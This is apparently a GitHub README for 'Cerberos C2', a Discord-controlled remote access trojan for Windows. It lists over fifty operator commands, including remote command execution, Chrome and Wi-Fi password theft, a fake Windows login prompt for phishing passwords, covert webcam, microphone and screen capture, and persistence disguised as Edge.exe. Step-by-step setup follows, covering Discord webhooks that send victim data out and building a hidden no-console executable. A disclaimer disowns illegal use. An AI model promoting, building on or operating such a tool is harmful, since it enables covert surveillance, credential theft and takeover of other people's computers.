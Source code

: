 !termcmd {ID}		>> start to delete all cmd windows
!terchrome {ID} 	>> start to delete all chrome windows
!syslan {ID} 		>> get system language
!delclipboard {ID}	>> delete active clipboard
!setclipboard {ID} {T} 	>> replace t with your text. set current clipboard
# Cerberos-C2
Cerberos C2 has over 50+ Functions, Cerberos Uses Discord as the C2. Cerberos CAN ONLY BE USED TO CONTROL WINDOWS. \
Cerberos v1.0.0 is created on 09-8-2022 by Vczz0.\
Cerberos is Tested on Windows 10+\
Total Spended Hours: 25~
#### BTC: bc1ql98s5yu2yt0r0rnp4ytc76sadd2xewapszmpd3


# WARNING!!
Cerberos C2 is not created for illegal purpose. The creator is not responsible for any damage. 

# Why?
i created this program to check my coding and hacking skills, and as a contribution to the hacktoberfest 2022. 
# Requirements
1. Windows 10 for setup
2. Python 3.10.6
3. Discord Application
4. Cerberos-C2.zip

# Todo
1. Email Function.
2. More Cam / microphone functions
3. GUI application
4. Rubberducky script

# Functions
if you use a path you can use {user}. Cerberos C2 will change it to the real username
change {ID} to the client ID wich you want to control.
```
# Cerberos C2
!resetID 			       >> Resets all ID's of clients. New ID's will be used after the program restarts.
!list 				       >> Display all active client's.
!info {ID} 			       >> Displays Version of client.
!terminate {ID} 		       >> Close's Application. Wich results to lose of control of client.

# System
!cmd {ID} {INPUT}		       >> Executes a system command on client. Change {INPUT} To command.
!destruct {ID} 			       >> Delets all trace's of Cerberos C2.
!reboot {ID}                           >> Reboots Client's system.
!shutdown {ID}                         >> Shutsdowb Client's system.
!usbcheck {ID} 			       >> Checks all pluged in device's.
!vm {ID}			       >> Checks if client is vm.
!wcd {ID}			       >> Get Current working dir.
!allproc {ID} 			       >> Lists all current curring processes.
!showerror {ID} {TITLE} {MESSAGE}      >> Shows error message. Change {TITLE} To your own title and {MESSAGE} TO your own message.
!clipboard {ID} 		       >> Gets Client clipboard.
!cd {ID} {DIR}		               >> Change dir to dir given.
!wallpaper {ID} {PATH}                 >> Changes walpaper to given dir. NOTE: "GIVE WHOLE DIR, else the wallpaper is black".
!volumemax {ID}			       >> Maxes out the volume of client.
!volumedown {ID} 		       >> Set's volume to zero of client.
!say {ID} {TEXT} 		       >> Get a voice to say {TEXT}.
!url {ID} {URL} 		       >> Opens {URL} in browser. 
!winlogin {ID} 			       >> Create's a fake window login to try to get a password.
!taskkill {ID} {TASK} 		       >> Kill's a task. Either the id or name.
!wifipw {ID} 			       >> Extracts wifi passwords.
!bluescreen {ID} 		       >> Bluescreen's client.
!window {ID} 			       >> Get client window text. 
!admincheck {ID}                       >> Checks for admin rights.
!termcmd {ID}			       >> start to delete all cmd windows
!terchrome {ID} 	               >> start to delete all chrome windows
!syslan {ID} 		               >> get system language
!delclipboard {ID}	               >> delete active clipboard
!setclipboard {ID} {TEXT} 	       >> replace {TEXT} with your text. set current clipboard
# Files
!upload {ID} {LINK} {NAME} / {PATH}    >> Uploads a file. Trough link. you can upload a file in the #upload channel and copy link from there. Enter file or path to store file.
!download {ID} {FILE}		       >> Downloads file from client. 
!remove {ID} {FILE} 		       >> Removes file from client
!mkdir 				       >> Make's a dir on client.

# Mouse / Keys    		       
!key {ID} {KEY} 		       >> Clicks Key given on clients keyboard change {KEY} with the key.
!morekey {ID} {KEY} 		       >> Clicks multiple Key given on clients keyboard change {KEY} with the key's.
!mousemove {ID} {coordinates} 	           >> Move's client mouse to given coordinates.
!mouseclick {ID} {coordinates} 	           >> Clicks on coordinates given.
!mouysedoubleclick {ID} {coordinates}      >> Double clicks on coordinates given.


# Cam
!screenshot {ID} 		       >> Takes a screenshot of client.
!frontcam {ID}    		       >> Takes a picture of client's frontcam.
!mic {ID}			       >> Records MIC from client for 9 seconds.
!camcount {ID} 			       >> Counts all systemcams.

# IP
!ipinfo {ID}			       >> Displays IP info of client. Country, Region etc.
!ipmap {ID} 			       >> Converts IP Lat, Long of client to a map.

# admin rights
!block {ID} 			       >> Blocks input, keyboard, mouse.
!unblock {ID} 			       >> Unblocks input. 
!displayoff {ID} 		       >> Blocks client input and set a black screen.
!displayon {ID} 		       >> Unblock client input and removes blackscreen. 

#persist
!persist {ID}			       >> Creates persistance on client. Exe: Edge.exe Regname: Edge.
!peristcheck {ID}		       >> Checks for persistance on client.
!persistdelete {ID}                    >> Tries to delete persistance.

# Chrome
!chromehistory {ID}		       >> Gets Chrome history of client. 
!chromecred {ID} 		       >> Extracts Chrome passwords.

#Rickroll
!rickroll {ID}			       >> Open's a rickroll video.

```





 

# Instalation
1. Click on [this link](https://www.python.org/ftp/python/3.10.6/python-3.10.6-amd64.exe) to download python 3.10.6.
2. Open te Python application.
3. Click "[ ] Add Python 3.10.6 to path] > "install now". Wait till finished after that you can close the Python application.
4. Open the Github of Cerberos-C2 > Click on "Code" > "Download ZIP". Wait till download is finished.
5. Unzip "Cerberos-C2.zip".
6. Open the folder "Cerberos-C2".
7. Right click on mouse and click on "Properties" > copy the "Location".
8. Open "CMD" > type: "cd" paste the copied Location + \Cerberos-C2 > hit "Enter".
9. Type: ```pip install -r requirements.txt```. Wait till its finished. Click on "-" To Minimize CMD.
10. Open Cerberus-C2 Folder again and double Click on the folder "main" > right click on "main.py" > "Edit" > "Edit with EDILE". Or you can edit it with Notepad. Minimize the Edile.
11. Click on [this link](https://discord.new/4A2stHvnUmXV) to copy the server template.
12. Change the server name to: "Cerberos C2".
13. Click on the green button "Create".
14. Open Discord > Click on the Server "Cerberos C2" > Click on "Cerberos C2" > "Server Settings" > "Integrations" > "Create Webhook".
15. Change the name of the webhook To: "Cerberos-AgentOnline" > Set channel to: "#agent-online" > Click On "Copy Webhook URL".
16. Open The Idle to change "main.py". Scroll till you see: AGENT_ONLINE_ID = "[AGENT_ONLINE_WBHOOK]". Replace [AGENT_ONLINE_WBHOOK] with your Copied Cerberos-AgentOnline Webhook setup earlier.
17. Click on "New Webhook" > change the name to "Cerberos-C2" > Channel to: "#c2"  > "Copy Webhook URL". 
18. Open The Idle to change "main.py". Scroll till you see: COMMAND_CONTROL_ID = "[C2_WEBHOOK]". Replace [C2_WEBHOOK] with your Copied Cerberos-C2 Webhook setup earlier.
19. Click on "New Webhook" > change the name to "Cerberos-Screenshots" > Channel to: "#screenshots" > "Copy Webhook URL".
20. Open The Idle to change "main.py". Scroll till you see: SCREENSHOT_ID = "[SCREENSHOT_WEBHOOK]". Replace [SCREENSHOT_WEBHOOK] with your Copied Cerberos-Screenshots Webhook setup earlier.
21. Click on "New Webhook" > change the name to "Cerberos-Webcam" > Channel to: "#webcam" > "Copy Webhook URL".
22. Open The Idle to change "main.py". Scroll till you see: WEB_CAM_ID = "[WEBCAM_WEBHOOK]". Replace [WEBCAM_WEBHOOK] with your Copied Cerberos-Webcam Webhook setup earlier.
23. Click on "New Webhook" > change the name to "Cerberos-Microphone" > Channel to: "#microphone"  > "Copy Webhook URL".
24. Open The Idle to change "main.py". Scroll till you see: MIC_ID = "[MICROPHONE_WEBHOOK]". Replace [MICROPHONE_WEBHOOK] with your Copied Cerberos-Microphone Webhook setup earlier.
25. Click on "New Webhook" > change the name to "Cerberos-Downloads" > Channel to: "#downloads" > "Copy Webhook URL".
26. Open The Idle to change "main.py". Scroll till you see: DOWNLOAD_ID = "[DOWNLOAD_WEBHOOK]". Replace [DOWNLOAD_WEBHOOK] with your Copied Cerberos-Downloads Webhook setup earlier.
27. Open your webbrowser and go to the discord developer portal website. You might have to login.
28. Click on "New application" > Set The Name Tho "Cerberos-C2" > "Create". By clicking on the image of the bot you set an logo if you want. The Logo can be found in the zip. 
29. On The left side click on "OAuth2" > "URL Generator". Click on "Bot". Then click on "Administrator.
30. Then there is a generated link click on "Copy". 
31. Open a new tab and enter the link. Note: "Sometimes it takes a bit of time".
32. Select the server: Cerberos C2.
33. click on "continue" > "authorize". do the verification.
34. Go back to the developer portal and go to "Bot" > "Copy" To copy the token. or you have to click "Reset" and then copy the token.
35. Open The Idle to change "main.py". Scroll till you see: BOT_TOKEN = "[BOT_TOKEN_HERE]". Replace [BOT_TOKEN_HERE] with your Copied Bot token setup earlier
36. Open the cmd window again. now type: ```pyinstaller main\main.py --onefile --noconsole --i \ico\exe.ixo``` and hit "Enter"
37. You can find the exe in the dist dir. 


